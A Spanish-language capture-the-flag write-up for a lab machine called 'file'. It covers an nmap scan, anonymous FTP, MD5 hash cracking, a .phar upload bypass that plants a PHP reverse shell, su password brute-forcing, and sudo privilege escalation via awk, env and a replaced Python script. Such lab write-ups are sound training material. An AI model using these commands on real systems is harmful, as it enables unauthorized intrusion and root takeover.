# Máquina file

---

Dificultad -> Fácil

---

Empezamos con un nmap para ver puertos

```shell
nmap -p- --open -sCV --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r--r--r--    1 65534    65534          33 Sep 12  2024 anon.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

Vemos un apache en el 80 y un ftp con el login Anonymous activado.

Entro por ftp y descargo el archivo `anon.txt`



En el archivo se ve lo que parece un hash, con john intento crackearlo y despues de probar varios formatos, con `Raw-MD5` me devuelve justin

```shell
john anon.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
```



No encuentro nada más asi que paso al puerto 80, en el solo veo una pagina default de apache pero en el codigo fuente comenta algo sobre un directorio raro



Con gobuster, busco directorios en web:

```shell
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x js,txt,php,html -t 64
```

Me encuntra un `/uploads` y `/file_upload.php` si vamos al file upload vemos que nos deja subir archivos donde luego podemos abrir en uploads



Intento subir una revshell en php pero me devuelve un error, probando otras extensiones, veo que con `.phar` se sube correctamente, ahora solo abro la revshell desde `/uploads` mientras que escucho desde mi máquina con netcat





Como siempre, antes de nada hago [Tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/#) y `sudo -l` pero me pide contraseña



Después de buscar un rato, no encuentro nada más que hay 4 usuarios



Así que solo se me ocurre hacer bruteforce [GitHub - Hgo08/Python-Su-BruteForce](https://github.com/Hgo08/Python-Su-BruteForce) 

Para pasarme el script, con `python3 -m http.server 8000` me hago un servidor de python en mi máquina y desde la otra máquina descargo el script y el rockyou con `wget http://172.17.0.1:8000/main.py` y `wget http://172.17.0.1:8000/rockyou.txt` 



Ahora ejecuto el script con cada usuario:

```bash
python3 main.py -w rockyou.txt -u fernando -T 100 -t 1
```

y en unos segundos, encuentra las credenciales de fernando y mario:





Con fernando no puedo ejecutar ningun binario pero con mario puedo ejecutar awk com julen:



Miro en [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#sudo) y ejecuto `sudo -u julen awk 'BEGIN {system("/bin/sh")}'`

Ahora con julen, veo que puedo escalar a iker con env



Vuelvo a mirar en [GTFOBins](https://gtfobins.github.io/gtfobins/env/#sudo) y ejecuto `sudo -u iker env /bin/bash`

FInalmente, como iker puedo ejecutar un script como root



No puedo editar el archivo, pero puedo eliminarlo y crear otro que si que puedo editar asi que pongo dentro `import os; os.system("/bin/bash")` y lo ejecuto con sudo



Y somos root :)
